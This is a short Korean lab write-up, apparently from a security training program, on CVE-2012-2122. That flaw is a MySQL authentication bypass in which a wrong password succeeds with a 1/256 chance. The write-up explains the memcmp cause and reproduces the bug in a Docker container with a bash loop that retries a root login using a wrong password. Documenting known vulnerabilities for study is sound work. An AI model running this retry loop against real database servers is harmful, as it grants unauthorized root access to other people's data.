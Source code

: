 # CVE-2012-2122

| whs 3기 유수빈

## 개요
1. **CVE 번호**: CVE-2012-2122
2. **취약점 명칭**: MySQL Authentication Bypass
3. **설명**: MySQL 서버에서 패스워드 인증 비교 시 잘못된 조건으로 인해, 낮은 확률로 비밀번호가 틀리더라도 root 계정으로 로그인 가능합니다.
4. **영향 버전**: MySQL 5.5.17 이하

## 요약
**CVE-2012-2122**는 MySQL과 MariaDB의 특정 버전에서 발견돤 **인증 우회 취약점**입니다.

- 취약한 MySQL 버전에서는 사용자의 비밀번호를 검증할 때, 내부적으로 'memcmp()'함수를 사용하여 해시값을 비교합니다.
- 해당 함수는 '-128 ~ 127' 범위의 값을 반환하지만, 해당 값을 'char'로 잘못 처리하면, '0'으로 인식하는 경우가 발생할 수 있습니다.
- 이를 통해 **1/256의 확률로 비밀번호가 틀려도 인증에 성공**하게 됩니다.
- 공격자는 이를 이용해 **임의의 비밀번호를 반복 시도**함으로써, **root 계정으로의 인증 우회를 달성하였습니다.

## 실습 환경 구성
- Docker 기반으로 구성
- 'docker-compose.yaml'을 통해 컨테이너 실행
- 컨테이너 내부에서 bash 반복문을 통해 인증 우회 취약점 재현

## 코드 
```bash
for i in {1..1000}; do
  echo "Try $i"
  mysql -u root --password=wrongpass -e "select user();" 2>/dev/null && echo "[+] Login Success!" && break
done
```

## 실행 결과
![cve 환경 구축](https://github.com/user-attachments/assets/cc1e767c-e72d-4d28-a655-38e3afbcba99)

운이 좋게 Try1에서 root 계정 로그인에 성공하였습니다.
